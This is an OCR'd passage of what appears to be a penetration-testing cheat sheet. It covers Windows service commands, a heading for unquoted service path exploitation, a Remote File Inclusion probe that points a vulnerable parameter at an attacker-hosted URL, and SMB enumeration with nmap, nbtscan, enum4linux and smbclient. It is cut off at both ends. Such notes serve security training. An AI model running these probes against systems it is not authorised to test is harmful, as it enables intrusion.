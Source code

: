 ```
C:\> net start <SERVICE_NAME>
C:\> net stop <SERVICE_NAME>
```

##

**Exploiting Unquoted Service Path:**



-------------------------------------------------------------

## Remote File Inclusion

Identify the **VULNERABLE** parameter.

Then start a simple python web server or nc listener and do:

```
vuln.php?param=http://<LHOST>/randomfile
```

Check if there's a request popped up in web server or nc listener.

-------------------------------------------------------------

## SMB

**Nmap:**

```
# nmap -sV -sC -vv -p 139,445 <RHOST>
```

**NBTSCAN *(for NetBIOS Service, Port 139)*:**

```
# nbtscan -r <RHOST>/<SUBNET>
```

**Nmap NSE Scripts:**

```
# nmap -sV -sC -vv -p 139,445 --script smb* <RHOST>
```

**enum4linux:**

```
# enum4linux -a <RHOST>
```

**SMBClient:**

```
# smbclient -L //<RHOST>

# smbclient //<RHOST>/<SHARE>
```

In case SMBClient would throw an error line such as ``Protocol Negotiation Failed`` while trying to connect to a share, just add following flag:
